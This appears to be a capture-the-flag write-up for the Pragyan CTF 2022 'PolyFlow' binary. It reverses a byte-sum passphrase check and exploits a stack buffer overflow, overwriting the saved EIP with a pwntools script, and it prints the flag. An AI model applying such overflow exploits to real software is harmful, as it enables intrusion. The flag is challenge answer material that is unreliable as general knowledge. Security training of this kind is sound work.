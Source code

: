 # Pragyan CTF 2022 - PolyFlow

Origin challenge link: https://ctf.pragyan.org/

You can also download challenge file in my repo: [Poly-flow.zip](Poly-flow.zip)

There will be 1 file in zip:

- Poly-flow

Download challenge and let's start!

# 1. Find bug

First, we will use `file` to check for basic information:

```
$ file Poly-flow
Poly-flow: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=681641744fb6d6d68665b3a0a2a1ebac46415b0e, for GNU/Linux 3.2.0, not stripped
```

This is a 32-bit file without being stripped. Next, let's use `checksec` to check for all defences:

```
$ checksec Poly-flow
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

We can see that `Canary found` and `NX enabled`. Finally, let's fire up ghidra and decompile to understand how the program works. 

The main function will ask for input, then check it and if it's correct, we will have input function:

![main.png](images/main.png)

At check function, it will add 4 bytes in first 16 bytes of our input and compare the result with `0xdeadbeef`

![check.png](images/check.png)

The sum inside loop will work like this (hex format) on stack if we input `aaaabaaacaaadaaa`:

```
 a a a a           61 61 61 61
 a a a b    -->    61 61 61 62
 a a a c           61 61 61 63
 a a a d           61 61 61 64
-------------------------------
                   85 85 85 8a
```

Because the sum will result in 0x1xx so from `0x61*4 = 0x184 + 1 = 0x185`. And afterh the sum, if it's equal with `0xdeadbeef` we will go into input function:

![input.png](images/input.png)

The var `i.0` is a global and at the begining of program, its value is 0. We can notice that the local variable local_1c is defined just 20 bytes but we can input upto 36 bytes --> **Buffer Overflow**.

That's all we can find. Let's move on next part: Brainstorming!

# 2. Brainstorming

Of course the first thing we need to do is to make sure we can get to the input function. To do that, we need to satisfy the check function.

After that, we will Buffer Overflow to execute the input function 5 times so that `i.0` will have the value of 5 and the flag will be printed.

- Summary:
  1. Satisfy check() function
  2. Get flag

# 3. Exploit

### Stage 1: Satisfy check() function

As we know that in check(), it will add 4 bytes of first 16 bytes and then compare with `0xdeadbeef`. So we will split the 16 bytes into 4 bytes per line like above. 

First, we will not want it to be 0x1xx because that will make us confused. We will take each byte of `0xdeadbeef` and divided with 4 to get the proper value for each byte of input (Python code):

```
0xde / 4        = 55.5
(0xde - 2) / 4  = 55.0 = 0x37

0xad / 4        = 43.25
(0xad - 1) / 4  = 43.0 = 0x2b

0xbe / 4        = 47.5
(0xbe - 2) / 4  = 47.0 = 0x2f

0xef / 4        = 59.75
(0xef - 3) / 4  = 59.0 = 0x3b
```

So the stack will sum 4 byte like this (hex format):

```
37 2b 2f 3b
37 2b 2f 3b
37 2b 2f 3b
39 2c 31 3e
-----------
de ad be ef
```

But wait, the stack is in a reverse order with this so we will need to change all collumns like this:

```
3b 2f 2b 37
3b 2f 2b 37
3b 2f 2b 37
3e 31 2c 39
-----------
ef be ad de
```


And we get the payload for scanf():

```
payload1 = \x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3e\x31\x2c\x39
```

Input this with pwntool and we jump into input() function.

<details>
<summary>Code snippet</summary>
<p>

```
payload1 = b'\x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3e\x31\x2c\x39'
p.sendlineafter(b'passphrase: ', payload1)
```

</p>

And now, let's move on the final stage: Get flag!

### Stage 2: Get flag

We can see that after scanf() input 16 bytes, then `\n` byte is remain and will go into fgets. That's why we can just input scanf() and then we stop. So that we will add some payload for fgets at `payload1` above so that it will be passed to fgets after scanf.

We know we have **Buffer Overflow** so let's find the offset with cyclic first(). After a while trying, we know that offset is 28 and after 28 byte is saved eip.

We can also see that the global var `i.0` will be increased 1 when execute input() function. So we will want to overwrite the saved eip with the input() function to make `i.0` contains 5, which help us get the flag.

```
# scanf()
payload1 = b'\x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3e\x31\x2c\x39'

# fgets
payload1 += b'A'*(28)             # Padding
payload1 += p32(0x08049860)       # input function
p.sendlineafter(b'passphrase: ', payload1)

for i in range(4):
    p.sendline(payload1[16:])     # The same with padding and input() function
```

Full script: [solve.py](solve.py)

# 4. Get flag

![get_flag.png](images/get_flag.png)

Flag is `p_ctf{mUlT1Pl3_BuFf3R_Ov3rF|0w}`